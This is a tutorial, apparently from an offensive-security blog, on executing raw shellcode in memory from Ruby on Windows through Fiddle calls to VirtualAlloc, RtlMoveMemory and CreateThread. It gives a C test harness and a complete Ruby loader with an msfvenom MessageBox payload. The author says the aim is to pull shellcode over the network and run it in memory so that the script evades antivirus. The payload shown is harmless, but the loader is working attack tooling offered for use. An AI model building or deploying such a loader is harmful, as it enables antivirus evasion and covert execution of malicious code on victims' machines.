

# How to Execute Raw Shellcode Using Ruby On Windows and Linux

As I'm working on some internal project, I was wondering how to run a raw shellcode directly from ruby. Usually, we use a C code to evaluate and test our shellcodes.

## Why do we need this?

This is one of the ways that we can run any shellcode in memory without touching that shellcode touch the disk. But, we have the code in the script! Well that's for PoC, but in a real scenario, we might send the shellcode over the network as a raw shellcode so the ruby script stays clean and bypass the AV's, once the ruby script receives the shellcode it'll execute it in the memory.

Let's see how we're testing our shellcode in a traditional way, first

```c
// msfvenom -a x86 --platform Windows -p windows/messagebox TEXT="@KINGSABRI" -f c --smallest
char shellcode[] =
  "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
  "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
  "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
  "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
  "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
  "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
  "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
  "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
  "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
  "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
  "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
  "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
  "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
  "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
  "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
  "\x68\x52\x49\x58\x20\x68\x47\x53\x41\x42\x68\x40\x4b\x49\x4e"
  "\x31\xc9\x88\x4c\x24\x0a\x89\xe1\x31\xd2\x52\x53\x51\x52\xff"
  "\xd0\x31\xc0\x50\xff\x55\x08";

// int main(int argc, char **argv){int (*f)();f = (int (*)())shellcode;(int)(*f)();}
int main(int argc, char **argv)
{
  int (*func)();
  func = (int (*)()) shellcode;
  (int)(*func)();
}
```

### Compile on Windows

1. download and install [TDM-GCC](https://sourceforge.net/projects/tdm-gcc/)
2. compile the code

```text
mingw32-gcc.exe shellcode-test.c -o shellcode-test.exe
```

### Compile On Linux

1. install mingw-w64 `apt install mingw-w64`  
2. compile the code `i686-w64-mingw32-gcc shellcode-test.c -o shellcode-test.exe -lws2_32` 

Since we're testing a Windows Shellcode now, move the exe to Windows and run it.

You should get similar to this



Now we know that the shellcode is working properly and we're going explain how to call the shellcode from Ruby not C, using Windows APIs.

## Calling Windows API to run Shellcode using Ruby

So in order to run a shellcode we basically need to follow the following steps

1. having a hexdicemial \(raw\) shellcode raw that executes anything \(eg. MessageBoxA\)
2. load `kernel32.dll` library
3. allocate a virtual memory for this shellcode. `VirtualAlloc`
4. create a buffer for the shellcode.
5. move the shellcode from the buffer to that allocation. `RtlMoveMemory`
6. create a new thread to execute that shellcode. `CreateThread`
7. wait for the execution/thread to end. `WaitForSingleObject`

We're going to depend on Ruby [Fiddle](https://docs.ruby-lang.org/en/2.5.0/Fiddle.html) standard library to call and interact with Windows APIs. First Let's explain each function and how we can later use it since understanding the original C code is crucial at this stage. Our frind in this part is Microsoft Developer Documentation \([MSDN](http://msdn.microsoft.com/)\).

### **kernel32.dll**

Which the library that contains all the functions we need to achieve our task.

### **VirtualAlloc\(\) function**

Which creates/allocate an executable memory space in the virtual memory. We need that to copy our shellcode from the buffer to that allocation to be then executed.

Syntax \(Source: [MSDN](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887%28v=vs.85%29.aspx)\)

```c
LPVOID WINAPI VirtualAlloc(
  _In_opt_ LPVOID lpAddress,
  _In_     SIZE_T dwSize,
  _In_     DWORD  flAllocationType,
  _In_     DWORD  flProtect
);
```

It accepts 4 parameters

* `lpaddress` : The starting address of the region to allocate.
* `dwSize` : The size of the region, in bytes, the shellcode size.
* `flAllocationType` : The type of memory allocation
* `flProtect` : The memory protection for the region of pages to be allocated.

It returns the pointer ID of the allocated memory.

### **VirtualProtect\(\) function \(Optional\)**

Which changes the protection on a region of committed pages in the virtual address space of the calling process.

Syntax \(Source: [MSDN](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366898%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396)\)

```c
BOOL WINAPI VirtualProtect(
  _In_  LPVOID lpAddress,
  _In_  SIZE_T dwSize,
  _In_  DWORD  flNewProtect,
  _Out_ PDWORD lpflOldProtect
);
```

It accepts 4 parameters

* `lpAddress` : A pointer an address that describes the starting page of the region of pages whose access protection attributes are to be changed.
* `dwSize` : The size of the region whose access protection attributes are to be changed, in bytes, our shellcode size.
* `flNewProtect` : The memory protection option.
* `lpfloldProtect` : A pointer to a variable that receives the previous access protection value of the first page in the specified region of pages.

### **RtlMoveMemory\(\) function**

Which copies bytes from a source memory \(shellcode's buffer\) to a destination memory \(our allocated memory\)

Syntax \(Source: [MSDN](https://docs.microsoft.com/en-us/windows/desktop/devnotes/rtlmovememory)\)

```c
VOID RtlMoveMemory(
  _Out_       VOID UNALIGNED *Destination,
  _In_  const VOID UNALIGNED *Source,
  _In_        SIZE_T         Length
);
```

It accepts 3 parameters

* `Destination` : A pointer to the destination memory block/allocation to copy the shellcode bytes to.
* `Source` : A pointer to the source memory block to copy the bytes from, the shellcode's buffer.
* `Length` : The number of bytes to copy from the source to the destination, the shellcode size.

### **CreateThread\(\) function**

Create a thread to execute within the virtual address space \(our allocated memory\) of the calling process.

Syntax \(Source: [MSDN](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread)\)

```c
HANDLE WINAPI CreateThread(
  __in_opt   LPSECURITY_ATTRIBUTES lpThreadAttributes,
  __in       SIZE_T dwStackSize,
  __in       LPTHREAD_START_ROUTINE lpStartAddress,
  __in_opt   LPVOID lpParameter,
  __in       DWORD dwCreationFlags,
  __out_opt  LPDWORD lpThreadId
);
```

It accepts 6 parameters

* `lpThreadAttributes` : A pointer to a Security Attributes for that thread to allow LSA can track.
* `dwStackSize` : the initial size or the stack
* `lpStartAddress` : the pointer to our allocated memory
* `lpParameter` : A pointer to a variable to be passed to the thread.
* `dwCreationFlags` : The flags that control the creation of the thread.
* `lpThreadId` : A pointer to a variable that receives the thread identifier. If this parameter is NULL, the thread identifier is not returned.

It returns the thread handle if succeeded, otherwise, it returns NULL

### **WaitForSingleObject\(\) function**

Which waits for the created thread to execute until it ends \(wait for the shellcode to end or exit\).

Syntax \(Source: [MSDN](https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject)\)

```c
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

It accepts 2 parameters

* `hHandle` : The thread handle
* `dwMilliseconds` : The time to wait in milliseconds, `-1` for infinite

#### Understanding Ruby Fiddle library

By definition, ruby [Fiddle](https://docs.ruby-lang.org/en/2.5.0/Fiddle.html) is an extension to translate a foreign function interface \(FFI\) with ruby. It wraps libffi, a popular C library that provides a portable interface that allows code written in one language to call code written in another language. In our case, it allows Ruby to call C code.

To load a C library from ruby we use `Fiddle.dlopen('/path/class_name')` hence that there is no need for the library's path if it's core system library. I've explained a simple usage for Fiddle in Rubyfu \([Calling Windows API Section](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/calling-windows-apis)\), which gives you a simple and variant usage of Fiddle.

Once we open the foreign library \(in our case kernel32.dll\), we use `Fiddle::Function` to call the designated functions. Note that you have to understand the function you call and its _argument types_ to assign to. `Fiddle::Function` returns a pointer that points to the return value of the called function. Each argument type has its own values \(eg. `Fiddle::Type_INT` value is **4**\). You can check all available _types_ from ruby docs [here](https://ruby-doc.org/stdlib-2.5.0/libdoc/fiddle/rdoc/Fiddle.html), or check them and their values using the following line:

```ruby
puts Fiddle.constants.grep(/TYPE_/).map{|type| type = "Fiddle::#{type.to_s}" ; "#{type} \t #{Kernel.const_get(type)}"}
```


**ProTip:** 

To avoid all the type hassling about which type is which, just use `Fiddle::TYPE_VOIDP` for all variable types except for the _handle_ which should be _Integer_ `Fiddle::TYPE_INT`.


The arguments types should be in an array while constructing the C function as follows

```ruby
ptr = Function.new(kernel32['VirtualAlloc'], [Fiddle::Type_INT, Fiddle::Type_INT, Fiddle::Type_INT, Fiddle::Type_INT], 4).call(0, shellcode.size, 0x3000, 0x40)
```

Notice the function's argument types in an array `[ARG1TYPE, ARG2TYPE, ARG3TYPE, ARG4TYPE]`respectively. Then we call the `call` the instance method of the `Function` class to call the constructed function \(eg. `VirtualAlloc` function\), with its arguments.

To create a buffer and fill it with the values you need, we use `Fiddle::Pointer[DATABYTES]` which returns a pointer object to that buffer, the data bytes should be in the pointer value as we've mentioned before\( `Fiddle::Pointer[DATABYTES]` \).

## The Final Code

The following is wrapping all the C code into ruby. Read the comment in the code to understand each step.

```ruby
require 'fiddle'
require 'fiddle/import'
require 'fiddle/types'

# msfvenom -a x86 --platform Windows -p windows/messagebox TEXT="@KINGSABRI" -f ruby --smallest
shellcode =
    "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64" +
    "\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e" +
    "\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60" +
    "\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b" +
    "\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01" +
    "\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d" +
    "\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01" +
    "\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01" +
    "\xe8\x89\x44\x24\x1c\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89" +
    "\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45" +
    "\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff" +
    "\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64" +
    "\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56" +
    "\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c\x24" +
    "\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67" +
    "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89" +
    "\xe3\x68\x52\x49\x58\x20\x68\x47\x53\x41\x42\x68\x40\x4b" +
    "\x49\x4e\x31\xc9\x88\x4c\x24\x0a\x89\xe1\x31\xd2\x52\x53" +
    "\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08"

include Fiddle
# Load kernel32.dll class
puts "[-] Loading kernel32.dll"
kernel32 = Fiddle.dlopen('kernel32')

# allocate a virtual memeory for our shellcde
puts "[-] VirtualAlloc"
ptr = Function.new(kernel32['VirtualAlloc'], [4,4,4,4], 4).call(0, shellcode.size, 0x3000, 0x40)

# change the protection of the allocated memory (optional)
Function.new(kernel32['VirtualProtect'], [4,4,4,4], 4).call(ptr, shellcode.size, 0, 0)

# create a buffer that contains our shellcode
puts "[-] Create buffer"
buf = Fiddle::Pointer[shellcode]

# copy the buffer to the allocated our allocated memory
puts "[-] RtlMoveMemory"
Function.new(kernel32['RtlMoveMemory'], [4, 4, 4], 4).call(ptr, buf, shellcode.size)

# create a thread that executes the shellcode that allocated in the memory
puts "[-] CreateThread"
thread = Function.new(kernel32['CreateThread'], [4,4,4,4,4,4], 4).call(0, 0, ptr, 0, 0, 0)

# wait forever for the shellcode thread execution
puts "[-] WaitForSingleObject"
Function.new(kernel32['WaitForSingleObject'], [4,4], 4).call(thread, -1)
```

Now, you can run the code

```text
ruby shellcode.rb
```

to get


The same concept applied on Linux, just started with Windows since Linux is much easier.

Happy Hacking!

